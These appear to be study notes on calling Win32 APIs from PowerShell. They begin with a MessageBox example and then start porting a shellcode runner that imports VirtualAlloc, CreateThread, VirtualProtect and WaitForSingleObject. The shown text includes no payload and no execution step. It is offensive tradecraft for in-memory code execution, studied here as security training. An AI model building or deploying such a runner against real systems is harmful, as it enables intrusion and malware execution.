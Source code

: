 # PowerShell Shellcode Runner
## Calling Win32 APIs from PowerShell
- Win32 API 方法就如同在VBA引入一樣，只是在使用上就如同C#，需要重新建構資料結構、函式
- 其中又以C# 中 System.Runtime.InteropServices 可以支援平台中的調用。
### MessageBox
- C language
`int MessageBox( HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);`
- C# Invoke
`[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
public static extern int MessageBox(int hWnd, String text, String caption, uint type);`
#### Example
```
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MessageBox(IntPtr hWnd, String text,
String caption, int options);
}"@
Add-Type $User32 
```
- Add-Type 會以指定的編譯器來編譯原始程式碼。 預設為CSharp 編譯器
- `[User32]::MessageBox(0, "This is an alert", "MyBox", 0)`
### Porting Shellcode Runner to PowerShell
```
$Win32 = @"using System;using System.Runtime.InteropServices;public class Win32 {
[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll",CharSet=CharSet.Ansi)]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
[DllImport("kernel32.dll", SetLastError=true)] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);} 
"@

Add-Type $Win32 

Enum PageProtection{
PAGE_NOACCESS = 0x01
PAGE_READONLY = 0x02
PAGE_READWRITE = 0x04
PAGE_WRITECOPY = 0x08
PAGE_EXECUTE = 0x10
PAGE_EXECUTE_READ = 0x20
PAGE_EXECUTE_READWRITE = 0x40
PAGE_EXECUTE_WRITECOPY = 0x80
PAGE_GUARD = 0x100
PAGE_NOCACHE = 0x200
PAGE_WRITECOMBINE = 0x400
}
```

